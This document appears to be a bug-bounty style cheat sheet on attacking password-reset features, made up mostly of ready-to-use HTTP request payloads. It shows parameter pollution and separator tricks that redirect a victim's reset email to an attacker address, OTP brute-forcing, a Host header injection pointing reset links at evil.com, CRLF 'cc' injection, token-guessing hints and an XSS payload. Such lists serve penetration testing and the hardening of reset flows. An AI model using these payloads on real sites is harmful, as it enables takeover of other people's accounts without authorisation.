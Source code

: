 # Forgot Password

### Introduction



Some common bugs in the forgot password / reset password functionality

### How to exploit



1. Parameter pollution

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&code=$123456$
```

3. Host header Injection

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com
```

to

```
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```

And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com
```

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com
```

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com
```

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

6. No TLD in value of the parameter

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

7. Using carbon copy

```
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma

```
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. Find out how the tokens generate

* Generated based on TimeStamp
* Generated based on the ID of the user
* Generated based on the email of the user
* Generated based on the name of the user

10. Try Cross-Site Scripting (XSS) in the form

Sometimes the email is reflected in the forgot password page, try to use XSS payload

```
"<svg/onload=alert(1)>"@gmail.com
```

\

